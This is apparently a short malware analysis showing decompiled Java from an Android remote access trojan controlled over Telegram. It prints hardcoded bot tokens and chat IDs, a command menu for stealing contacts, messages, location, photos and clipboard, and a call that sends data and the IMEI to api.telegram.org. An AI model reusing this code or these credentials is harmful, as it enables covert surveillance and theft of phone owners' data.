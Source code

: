 ```java
```
## b4a.examplf.botrat

```java
// Here we can see the chat_id and bot_token
    public static String _process_globals() throws Exception {
        _chatid = "471078355";
        _bot_token = "535795015:AAGaT2CTghljB3xqv399GZZOdB-guH_i92I";
    }

    public static String _service_create() throws Exception {
        _tmaker._addnormalbutton("دریافت مخاطبین"); // Get contacts
        _tmaker._addnormalbutton("دریافت پیام ها"); // Receive messages
        _tmaker._addnormalbutton("دریافت برنامه ها"); // Get apps
        _tmaker._addnormalbutton("دریافت مکان"); // Get a place
        _tmaker._addnormalbutton("دریافت گالری"); // Get Gallery
        _tmaker._addnormalbutton("دریافت کلیپ بورد"); // Get Clipboard
        _tmaker._addnormalbutton("دریافت وضعیت"); // Get status
        _tmaker._addnormalbutton("دریافت اطلاعات شارژ"); // Get Charging Information
        _tmaker._addnormalbutton("دریافت تماس ها"); // Receive calls
        _tmaker._addnormalbutton("لرزش کم"); // Low vibration
        _tmaker._addnormalbutton("لرزش متوسط"); // Medium Shake
        _tmaker._addnormalbutton("لرزش زیاد"); // High vibration
        _tmaker._addnormalbutton("سایلنت"); // Silent
        _tmaker._addnormalbutton("صدا دار"); // Loud
        _tmaker._addnormalbutton("بیصدا"); // silent
        _tmaker._addnormalbutton("Blacksc");
        _tmaker._addnormalbutton("Blackscf");
        _tmaker._addnormalbutton("گرفتن عکس1"); // Take Photo 1
        _tmaker._addnormalbutton("گرفتن عکس2"); // Take Photo 2
        _tmaker._addnormalbutton("ضبط فیلم"); // Movie Recording
        _tmaker._addnormalbutton("توقف ضبط فیلم"); // Stop movie recording
        _tmaker._addnormalbutton("راهنمای دستورات"); // Instructions Guide
        _tmaker._addnormalbutton("توقف رات"); // "Rat stopped
    }

// Here we can see the Rat create a file `thisapk_slm.txt` that mentioning a Telegram channel and a list of commands
    public static String _tele_finish(boolean z) throws Exception {
            File file = Common.File;
            file = Common.File;
            if (!File.Exists(File.getDirInternal(), "thisapk_slm.txt")) {
                _tele._send_messagewithbutton(_chatid, "این رات توسط وحید میل شصتو هفت تهیه شده ..برای کنترل رات از دستورات زیر استفاده کنید", _chinesh); // "This rat is made by Vahid Mill sixty seven. Use the following commands to control the rat"
                File.WriteString(File.getDirInternal(), "thisapk_slm.txt", "");
            }
    }
```
# b4a.example.servis
```java
// in this file we can see the connection and some files name
   public static String _send_message(String str) throws Exception {
        httpjob httpjob = new httpjob();
        httpjob._initialize(processBA, "jobSendMessage", getObject());
        httpjob._download2("http://api.telegram.org/bot339912423:AAHeJoVC3i8zzwXhtCQMBoevSCn3jEuKfZU/sendmessage", new String[]{"chat_id", "275899582", "text", str + Common.CRLF + Common.CRLF + "IMEI دستگاه:" + _imei});
        return "";
    }

```